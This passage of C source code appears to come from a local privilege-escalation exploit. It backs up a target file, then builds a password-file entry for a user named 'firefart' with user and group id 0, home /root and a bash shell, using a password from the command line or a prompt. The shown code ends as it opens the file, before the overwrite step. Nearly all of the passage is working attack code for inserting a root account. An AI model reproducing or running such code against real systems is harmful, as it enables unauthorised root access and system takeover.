 ```c
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
```